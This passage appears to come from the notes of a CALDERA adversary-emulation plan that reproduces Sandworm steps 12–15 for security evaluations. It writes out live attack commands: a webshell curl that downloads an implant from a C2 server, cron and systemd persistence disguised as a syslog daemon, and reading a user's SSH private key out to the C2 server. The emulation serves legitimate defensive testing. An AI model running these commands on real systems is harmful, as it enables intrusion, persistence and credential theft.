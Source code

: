 - If the automated cleanup for step 11 fails, please follow manual cleanup instructions from https://github.com/attackevals/sandworm/tree/public_release/Resources/cleanup

## Step 12
- `curl` commands will have their `stderr` output suppressed to prevent CALDERA from prioritizing `stderr` output over `stdout`
- Note that the `ls` webshell command output may take a very long time to render/load from the browser due to the output size.

## Step 13
- The CALDERA agent executable will be downloaded as `centreon_module_linux_app64` and will be used instead of the actual `centreon_module_linux_app64` file used in evals.
    - The agent will act as the remote access implant and will replace the Exaramel-Linux-based malware from evals.
    - The `curl` request used to download the agent executable has been modified in order to perform an HTTP POST request and pass in required headers for compiling the agent executable. It will look something like the following:
    ```
    curl --insecure "https://10.0.1.5/search.php?cmd=curl+--insecure+-X+POST+-H+file:sandcat.go+-H+platform:linux+-H+server:http://192.168.0.4:8888+-H+group:caladan+http://192.168.0.4:8888/file/download+-o+centreon_module_linux_app64" 2>/dev/null;
    ```
- An extra ability is included to wait for 40 seconds for the new elevated agent to start beaconing in to the C2 server.

## Step 14
- The following command is run via `sh` to emulate the original GoLang implementation for cron persistence:
    ```
    dir=$(dirname /var/www/html/centreon_module_linux_app64);
    croncontents=$(crontab -l 2>/dev/null);
    printf "$croncontents\n1 * * * * cd $dir && centreon_module_linux_app64\n@reboot cd $dir && centreon_module_linux_app64\n" | crontab -
    ```
- The following command is run via `sh` to emulate the original GoLang implementation for systemd persistence:
    ```
    printf "[Unit]\nDescription=Syslog daemon\n\n[Service]\nWorkingDirectory=$(dirname #{location})\nExecStartPre=/bin/rm -f /tmp/.applocktx\nExecStart=#{location}\nRestart=always\n\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/syslogd.service;
    chmod 0644 /etc/systemd/system/syslogd.service;
    systemctl enable syslogd.service;
    systemctl daemon-reload;
    ```
- Instead of transferring the SSH key files directly to the CALDERA server, the agent will execute the following `cat` commands via `sh` and send the output to the CALDERA server: `cat /home/fherbert/.ssh/id_rsa;cat /home/fherbert/.ssh/id_rsa.pub;`

## Step 15
- The CALDERA agent executable for the lateral movement target will be compiled and downloaded as `wsmprovav.exe` and will be used instead of the actual `wsmprovav.exe` executable used in evals.
    - The agent will act as the remote access implant and will replace the Exaramel-based malware from evals.
    - Note that the agent executable will directly connect to the C2 server and does not act as a stager or dropper. No DLL will be downloaded or executed as part of this process.
- When running the psexec python script, since the user's environment may not have the script pre-installed, or in a different directory, the user must download the script by executing the `./download_payloads.sh` script prior to starting the CALDERA server. This will download the required `psexec_sandworm.py` script in the payloads directory within the `emu` plugin.
    - The commandline when running the psexec script has been modified to run without any manual user input, and may look something like the following:
